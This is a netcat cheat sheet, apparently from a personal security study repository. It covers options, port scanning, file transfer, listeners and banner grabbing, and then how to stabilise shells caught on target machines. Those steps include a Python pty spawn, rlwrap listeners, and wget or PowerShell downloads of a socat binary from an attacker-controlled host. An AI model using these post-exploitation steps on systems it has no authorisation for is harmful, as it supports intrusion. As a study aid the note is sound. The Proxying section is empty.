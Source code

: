 Netcat is a networking tool that's used for reading from and writing to network connections using TCP or UDP

* Can function as a client that connects to a listening port
* Can function as a server that listens on a port of your choice

![](https://github.com/JonmarCorpuz/SecondBrain/blob/main/Assets/Whitespace.png)

# Netcat Options

| Netcat Option | Purpose |
| --- | --- |
| -l | Listen mode |
| -p | Specify the port number (Port numbers less than 1024 require root privileges to listen on) |
| -n | Numeric only (No resolution of hostnames via DNS) |
| -v | Verbose output |
| -vv | Very verbose output |
| -k | Keep listening after a client disconnects from the port |

![](https://github.com/JonmarCorpuz/SecondBrain/blob/main/Assets/Whitespace.png)

# Netcat Operations

## Port Scanning 

Netcat allows you to scan for open ports on a target system

```Bash
nc -zv <hostname> <port_range>
```

## File Transfer 

Netcat allows you to send and receive files between two hosts

```Bash
# From sender's machine
nc -lp <port_number> < <file_to_send>

# From receiver's machine
nc <hostname> <port_number> > <file_to_receive> 
```

## Chatting

Netcat allows you to create a simple chat server between two hosts

```Bash
# From listening machine
nc -lp <port_number>

# From connecting machine
nc <hostname> <port_number>
```

## Port Listening (Netcat as a Server)

Netcat allows you to listen on a specific port for incoming connections

```Bash
nc -lvnp <port_number>
```

## Banner Grabbing (Netcat as a Client)

Netcat allows you to fetch information from services running on open ports

```Bash
nc <hostname> <port_number>
```

## Proxying

Netcat allows you to simply use it as a simple network proxy

```Bash

```

![](https://github.com/JonmarCorpuz/SecondBrain/blob/main/Assets/Whitespace.png)

# Netcat Shell Stabilization

* Non-interactive by default
* Very unstable by default (Ex: *Pressing CTRL + C kills the whole thing*) due to netcat shells being processes running inside a terminal, rather than being bonafide terminals 

## Netcat Shell Stabilization Using Python

```Bash
# 1. Spawn a better featured shell using Python
python -c 'import pty;pty.spawn("/bin/bash")'

# 2. Give yourself access to term commands
export TERM=xterm

# 3. CTRL + Z to background the shell

# 4. Turn off our own terminal echo and then foreground the shell
stty raw -echo; fg
```

* Only applicable to Linux boxes since they nearly always have Python installed by default
* Return your own terminal back to normal by entering `reset` in your own terminal

## Netcat Shell Stabilization Using rlwrap

```Bash
# 1. Install rlwrap
sudo apt -y install rlwrap

# 2. Use rlwrap to invoke a slightly different listener
rlwrap nc -lvnp <port_number>
```

* rlwrap gives us access to history, tab autocompletion, and the arrow keys immediately upong receiving a shell (Some manual stabilisation may be required if you want to be able to use CTRL + C inside the shell)
* Particularly used when dealing with Windows shells since they're usually difficult to stabilise

## Netcat Shell Stabilization Using Socat

```Bash
# 1. Create a webserver on the attacking machine inside the directory containing your socat static compiled binary
sudo python3 -m http.server 80

```Bash
# 2. Use the netcat shell that's connected to the target machine to download the socat static compiled binary
wget <attacking_machine_address>/<socat_static_compiled_binary_file> -O /tmp/socat
```

```PowerShell
# 2. Use the netcat shell that's connected to the target machine to download the socat static compiled binary
Invoke-WebRequest -uri <attacking_machine_address>/<socat_static_compiled_binary_file>.exe -outfile C:\\Windows\temp\socat.exe
```

* Limited to Linux targets (Socat shells on Windows are usually no more stable than a netcat shell)
